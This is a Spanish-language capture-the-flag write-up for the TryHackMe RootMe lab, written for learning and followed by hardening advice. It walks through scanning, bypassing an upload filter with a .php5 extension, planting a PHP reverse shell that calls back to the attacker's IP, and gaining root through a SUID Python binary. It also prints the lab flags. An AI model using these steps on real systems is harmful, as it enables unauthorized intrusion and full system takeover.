 # **Explotación de Máquina RootMe (TryHackMe)**

![Nivel: Fácil](https://img.shields.io/badge/Nivel-Fácil-green) ![Tema: File Upload + Privilege Escalation](https://img.shields.io/badge/Tema-File%20Upload%20%2B%20PrivEsc-blue)

## **Descripción**
Este repositorio documenta la explotación completa de la máquina **RootMe** de TryHackMe, que presenta:
1. Vulnerabilidad de subida de archivos sin validación adecuada
2. Bypass de restricciones de extensión PHP
3. Escalada de privilegios mediante binario SUID de Python

**Tiempo estimado**: 25-40 minutos  
**Dificultad**: Fácil  
**Sistema operativo**: Linux (Ubuntu)

## **Índice**
1. [Reconocimiento](#reconocimiento)
2. [Explotación Web](#explotación-web)
3. [Shell Inversa](#shell-inversa)
4. [Escalada de Privilegios](#escalada-de-privilegios)
5. [Conclusión](#conclusión)

## **Reconocimiento**

### 1. Escaneo Inicial
```bash
nmap -p- --open -sS -sC -sV --min-rate 5000 -n -Pn 10.10.80.12 -oN escaneo
```

**Hallazgos clave**:
- **Puerto 22/tcp**: SSH - OpenSSH 7.6p1 Ubuntu
- **Puerto 80/tcp**: HTTP - Apache httpd 2.4.29

### 2. Descubrimiento de Directorios Web
```bash
gobuster dir -u http://10.10.80.12 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,html -t 50
```

**Directorios encontrados**:
- `/panel/` - Directorio de subida de archivos
- `/uploads/` - Directorio de archivos subidos
- `/css/`, `/js/`, `/images/` - Directorios estáticos

## **Explotación Web**

### 3. Análisis del Panel de Subida
- Acceso a `http://10.10.80.12/panel/`
- **Restricción identificada**: Bloqueo de extensiones `.php`
- **Bypass**: Uso de extensión alternativa `.php5`

### 4. Preparación del Payload
**Reverse Shell PHP (PentestMonkey)**:
```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
mv php-reverse-shell.php shell.php5
```

**Modificaciones**:
- Cambiar `$ip = '10.10.15.65';` (IP atacante)
- Cambiar `$port = 4444;` (Puerto escucha)

### 5. Subida y Ejecución
- Subir `shell.php5` al panel en `/panel/`
- Acceder al archivo en `http://10.10.80.12/uploads/shell.php5`

## **Shell Inversa**

### 6. Establecimiento de Conexión
**En máquina atacante**:
```bash
nc -lvnp 4444
```

**Resultado**: Shell obtenida como usuario `www-data`

### 7. Flag de Usuario
```bash
find / -name user.txt 2>/dev/null
cat /var/www/user.txt
```
- **Flag user.txt**: `THM{y0u_g0t_a_sh3ll}`

## **Escalada de Privilegios**

### 8. Enumeración de Binarios SUID
```bash
find / -perm -4000 2>/dev/null
```

**Binarios interesantes**:
- `/usr/bin/python` (SUID bit set)

### 9. Explotación con Python
```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

**Resultado**: Shell como **root** obtenida

### 10. Flag de Root
```bash
find / -name root.txt 2>/dev/null
cat /root/root.txt
```
- **Flag root.txt**: `THM{pr1v1l3g3_3sc4l4t10n}`

## **Conclusión**

### Vulnerabilidades Críticas
1. **Validación insuficiente en subida de archivos**
2. **Permisos SUID peligrosos en Python**
3. **Exposición de directorio `/uploads/`**

### Hardening Recomendado
- Implementar validación estricta de tipos de archivo
- Deshabilitar ejecución de scripts en directorios de upload
- Revisar y eliminar permisos SUID innecesarios
- Implementar WAF para prevenir ataques de file upload

### Técnicas Aplicadas
1. **Fuzzing de directorios** con Gobuster
2. **Bypass de extensiones** (.php5)
3. **Reverse Shell PHP**
4. **Escalada mediante SUID exploitation**

---

**Herramientas utilizadas**:
- Nmap
- Gobuster
- Netcat
- Python

**Referencias**:
- [TryHackMe - RootMe Room](https://tryhackme.com/room/rootme)
- [GTFOBins - Python SUID](https://gtfobins.github.io/gtfobins/python/#suid)
- [PentestMonkey PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)

**Tags**: `#TryHackMe #RootMe #FileUpload #SUID #Python #PrivEsc #CTF`

---

## **Lecciones Aprendidas**
- Las extensiones alternativas (.php5, .phtml) pueden bypassear filtros básicos
- Los binarios con SUID son vectores comunes de escalada
- La enumeración metódica es clave en CTFs
- Siempre revisar permisos de archivos y directorios

**Plataforma**: TryHackMe
